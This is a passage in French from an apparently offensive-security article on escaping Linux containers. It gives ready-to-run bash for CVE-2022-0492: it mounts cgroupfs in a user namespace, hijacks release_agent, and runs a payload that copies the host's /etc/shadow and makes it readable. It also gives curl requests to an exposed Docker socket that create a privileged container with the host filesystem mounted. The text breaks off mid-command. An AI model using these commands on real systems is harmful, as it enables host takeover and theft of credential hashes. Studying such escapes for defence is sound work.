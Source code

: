 L'**impact technique** est considérable : accès complet en lecture/écriture au système de fichiers de l'hôte, possibilité d'écrasement de binaires système critiques, et escalade de privilèges complète si le conteneur s'exécute avec l'UID 0.

## Technique #3 : CVE-2022-0492 - Exploitation des Namespaces Utilisateur

### Contournement des Restrictions CAP\_SYS\_ADMIN

**CVE-2022-0492** permet l'évasion sans la capability `CAP_SYS_ADMIN` traditionnellement requise, en exploitant une **vérification manquante** dans le noyau Linux pour l'écriture du fichier `release_agent`. Cette vulnérabilité démontre comment l'utilisation de namespaces utilisateur peut contourner les protections de sécurité établies.

```bash
# Création d'un namespace utilisateur pour contourner les restrictions
unshare -UrmC bash

# Montage du cgroupfs dans le nouveau namespace
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Configuration de l'exploitation (principe similaire au release_agent classique)
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

# Création et exécution du payload malveillant
echo '#!/bin/sh' > /cmd
echo "cp /etc/shadow $host_path/shadow_copy && chmod 644 $host_path/shadow_copy" >> /cmd
chmod a+x /cmd

# Déclenchement de l'évasion
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

La clé de cette exploitation réside dans la capacité de **monter cgroupfs dans de nouveaux namespaces utilisateur**, permettant ensuite la modification du fichier release\_agent sans les privilèges CAP\_SYS\_ADMIN normalement requis.

## Technique #4 : Exploitation des Sockets de Runtime

### Contrôle Total du Runtime Conteneur

L'exposition du socket Docker/containerd (`/var/run/docker.sock`) dans un conteneur constitue l'une des **erreurs de configuration les plus dangereuses**. Cette exposition permet un contrôle total du daemon de conteneurs, facilitant la création de conteneurs privilégiés pour l'évasion.

```bash
# Vérification de l'exposition du socket Docker
ls -la /var/run/docker.sock

# Énumération des conteneurs existants via l'API REST Docker
curl --unix-socket /var/run/docker.sock http://localhost/containers/json

# Création d'un conteneur privilégié avec montage complet de l'hôte
curl -H "Content-Type: application/json" \
--unix-socket /var/run/docker.sock \
-d '{
  "Image": "alpine:latest",
  "Cmd": ["/bin/sh", "-c", "while true; do sleep 3600; done"],
  "HostConfig": {
    "Privileged": true,
    "Binds": ["/:/host"],
    "PidMode": "host",
    "NetworkMode": "host"
```